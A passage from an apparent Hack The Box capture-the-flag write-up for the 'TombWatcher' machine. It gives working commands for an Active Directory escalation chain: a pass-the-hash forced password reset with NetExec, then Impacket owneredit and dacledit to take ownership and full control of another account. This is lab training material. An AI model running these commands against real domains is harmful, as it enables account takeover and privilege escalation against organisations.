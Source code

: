 ### Step 3: Force Password Change on sam

The `ansible_dev$` computer account has **ForceChangePassword** privileges on user `sam`. I used NetExec to change sam's password:

```bash
nxc smb 10.10.11.72 -u 'ansible_dev$' -H 4f46405647993c7d4e1dc1c25dd6ecf4 -M change-password -o USER=sam NEWPASS=NewPassword
```

✅ **Success!** Sam's password was changed to `NewPassword`.

### Step 4: Taking Ownership of john

User `sam` has **WriteOwner** privileges on user `john`, allowing sam to change john's owner to himself. However, I encountered an MD4 hash algorithm error. To fix this, I updated `/etc/ssl/openssl.cnf`:

```conf
[openssl_init]
providers = provider_sect

[provider_sect]
default = default_sect
legacy = legacy_sect

[default_sect]
activate = 1

[legacy_sect]
activate = 1
```

Now I could change john's owner:

```bash
owneredit.py -action write -new-owner 'sam' -target 'john' 'tombwatcher.htb/sam:NewPassword'
```

**Result:**
```
[*] Current owner information below
[*] - SID: S-1-5-21-1392491010-1358638721-2126982587-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=tombwatcher,DC=htb
[*] OwnerSid modified successfully!
```

### Step 5: Granting Full Control and Password Reset

With ownership of john, I granted sam **FullControl** over john's account:

```bash
dacledit.py -action 'write' -rights 'FullControl' -principal 'sam' -target 'john' 'tombwatcher.htb/sam:NewPassword'
```
